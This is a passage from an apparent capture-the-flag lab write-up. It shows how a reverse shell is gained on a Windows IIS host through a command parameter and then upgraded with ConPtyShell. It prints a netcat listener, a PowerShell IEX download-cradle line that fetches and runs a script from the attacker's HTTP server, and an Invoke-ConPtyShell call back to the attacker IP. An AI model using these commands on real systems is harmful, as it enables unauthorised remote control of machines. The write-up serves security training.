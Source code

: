 Now we can use a powershell shell from [revshells.com](https://www.revshells.com/). I will use "Poweshell #3 (Base64)", urlencode it and pass it to the cmd parameter:

![Revshell powershell payload](/assets/images/Analysis/rev_shell_powershell_payload.png)

And we receive the shell:

```bash
❯ rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.225] from (UNKNOWN) [10.10.11.250] 57936

PS C:\inetpub\internal\dashboard\uploads>
```

Now I will use ConPtyShell to stabilize the shell and for showing errors, doing ctrl+c, etc:

### Spawn http server to share Invoke-ConPtyShell.ps1
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### Spawn nc to receive the shell
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

### Execute the script from http server and execute ConPtyShell
```powershell
PS C:\inetpub\internal\dashboard\uploads> IEX(New-Object Net.WebClient).downloadString("http://10.10.14.225/Invoke-ConPtyShell.ps1")
PS C:\inetpub\internal\dashboard\uploads> Invoke-ConPtyShell -RemoteIp 10.10.14.225 -RemotePort 443 -Rows 50 -Cols 184
```
